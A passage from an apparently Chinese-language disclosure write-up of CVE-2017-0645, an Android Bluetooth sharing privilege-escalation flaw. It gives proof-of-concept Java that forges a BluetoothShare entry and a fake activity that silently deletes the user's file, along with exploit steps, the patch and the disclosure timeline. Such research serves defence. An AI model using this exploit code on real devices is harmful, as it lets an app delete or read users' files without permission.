 ``` java
               values.put(BluetoothShare.MIMETYPE, "xxx/yyy");

                values.put(BluetoothShare.USER_CONFIRMATION, 1);

                // when content provider is null, use insert or use update

                m_contentResolver.insert(BluetoothShare.CONTENT_URI, values);
               // m_contentResolver.update(BluetoothShare.CONTENT_URI, values, "_id = 12", null);

            }
        });
```

3.蓝牙 App 取出我们构造的 filename, filetype；
4.蓝牙 App 授予读写权限，然后再启动恶意 App 进行处理;
5.恶意 App 直接删除 /sdcard 中的这个文件。

``` java
public class FakeViewActivity extends Activity {
    final static String TAG = "Bluz";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        Intent intent = getIntent();
        String dir = intent.getDataString();
        Log.d(TAG, "dir is "+dir);
        Uri uri = intent.getData();
        ContentResolver cr = getContentResolver();
       Log.d(TAG, "Deleting "+ intent.getDataString() +" silently!");
        getContentResolver().delete(uri, null, null);
    }
}
```

在上述整个过程中，恶意 App 并未申请 SD 卡写权限，因此这是一个提权漏洞。

另外还有一种利用方式，是在 Intent 中直接传入蓝牙 BluetoothOppProvider 的 uri ，比如 content://com.android.bluetooth.opp/btopp/1" ，从而获得对蓝牙共享数据库的读写权限。

完整代码请见[这里](https://github.com/heeeeen/CVE-PoC/tree/master/CVE-2017-0645)
### 0x04 漏洞修复

Google 对该漏洞的[修复](https://android.googlesource.com/platform/packages/apps/Bluetooth/+/14b7d7e1537af60b7bca6c7b9e55df0dc7c6bf41%5E%21/#F0)主要有两点:

1.确保 Intent data 始终为 BluetoothOppProvider 的 Uri ，防止仿冒； 2.撤销了授予第三方应用的读写权限，只授予第三方应用某个 Activity 的读权限。
### 0x05 时间线

    2017.02.15: 漏洞提交
    2017.03.01: 漏洞确认，初始评级为高
    2017.03.23: 漏洞降级为中
    2017.06.01: 补丁发布
    2017.06.23: 漏洞公开
    
  

